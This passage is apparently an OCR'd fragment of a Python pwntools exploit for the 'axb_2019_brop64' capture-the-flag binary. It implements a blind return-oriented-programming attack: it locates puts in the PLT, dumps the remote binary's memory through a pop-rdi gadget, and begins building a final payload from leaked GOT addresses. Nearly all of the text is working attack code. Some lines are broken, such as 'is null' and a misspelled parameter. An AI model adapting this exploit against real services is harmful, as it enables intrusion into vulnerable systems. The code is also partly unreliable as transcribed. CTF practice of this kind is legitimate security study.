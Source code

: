 ```python
                )
                return (func_plt_maybe + maybe_low_byte)
            maybe_low_byte = maybe_low_byte + 1
        except:
            pass
            sh.close()

func_plt_addr = 0x400635    # 0x400635
if func_plt_addr is null:
    func_plt_addr = Find_func_plt(old_return_addr & 0xFF0000, padding_length, stop_gadget_addr, brop_gadget_addr)
    
    
# dump内存
def Dump_file(func_plt, padding_lengsth, stop_gadget, brop_gadget):
    process_old_had_received_length = 0
    process_now_had_received_length = 0
    file_content = b""
    while True:
        try:
            sh = get_sh()
            while True:
                sh.recvuntil(b"Please tell me:")
                payload  = b'A' * (padding_length - len('Begin_leak----->'))
                payload += b'Begin_leak----->'
                payload += p64(brop_gadget + 9) # pop rdi;ret;
                payload += p64(0x400000 + process_now_had_received_length)
                payload += p64(func_plt)
                payload += p64(stop_gadget)
                sh.send(payload)
                sh.recvuntil(b'Begin_leak----->' + p64(brop_gadget + 9).strip(b'\x00'))
                received_data = sh.recvuntil(b'\x0AHello')[:-6]
                if len(received_data) == 0 :
                    file_content += b'\x00'
                    process_now_had_received_length += 1
                else :
                    file_content += received_data
                    process_now_had_received_length += len(received_data)
        except:
            if process_now_had_received_length == process_old_had_received_length :
                log.info('We get ' + str(process_old_had_received_length) + ' byte file!')
                with open('axb_2019_brop64_dump', 'wb') as fout:
                    fout.write(file_content)
                return
            process_old_had_received_length = process_now_had_received_length
            sh.close()
            pass

dump_file = False
if dump_file:
    Dump_file(func_plt_addr, padding_length, stop_gadget_addr, brop_gadget_addr)


# exp
context.log_level='debug'
context.arch='amd64'

puts_plt_addr = 0x400640    # 根据dump下来的二进制文件分析纠正为0x400640（原来是0x400635）
puts_got_addr = 0x601018    # 根据dump下来的二进制文件分析可以看到got表中puts函数地址为0x601018

payload  = b'A' * (padding_length - len('Begin_leak----->'))
payload += b'Begin_leak----->'
payload += p64(brop_gadget_addr + 9) # pop rdi;ret;
```